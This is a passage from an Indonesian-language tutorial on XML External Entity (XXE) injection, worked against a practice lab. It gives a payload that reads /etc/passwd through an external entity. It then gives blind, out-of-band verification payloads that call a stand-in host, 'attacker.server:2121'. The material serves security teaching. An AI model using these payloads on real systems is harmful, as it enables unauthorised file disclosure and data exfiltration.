 **Payload :**

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<root>
<name>test</name>
<tel>082</tel>
<email>&file;</email>
<password>pwd</password>
</root>
```

![](https://i.imgur.com/9iyEhwt.png)

### Blind XXE - Out Of Band XXE

Seperti namanya `blind` yang berarti hasil parsing atau data nya tidak akan ditampilkan, untuk melihat datanya harus dilakukan `exfiltration` sehingga data tersebut bisa dilihat/dibaca.

Untuk lab blind xxe masih tetap menggunakan xxelab, tetapi source nya sedikit dirubah, yaitu pada bagian `echo` dihapus sehingga hasil nya tidak terlihat.

```php
echo "Sorry, $email is already registered!";
```

### Blind XXE Verification

Sebelum asal melakukan blind xxe injection, ada baiknya melakukan verifikasi terlebih dahulu, apakah web ini benar vulnerable blind xxe atau tidak. Untuk memverifikasi cukup mudah karena hanya tinggal menggunakan external entity dengan wrapper atau protokol yang mendukung remote source seperti http, ftp ataupun protokol lainnya sesuai dengan keadaan environment yang digunakan target \(karena beberapa protokol/wrapper tidak enable by default dan juga ada wrapper yang hanya bekerja pada bahasa pemrograman tertentu saja\).

**Payload Verfication :**

```markup
<!DOCTYPE root [
<!ENTITY % test SYSTEM "http://attacker.server:2121">
%test;
]>
```

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % test SYSTEM "http://attacker.server:2121">
%test;
]>
<root>
<name>test</name>
<tel>021212</tel>
<email>test</email>
<password>pwd</password>
</root>
```
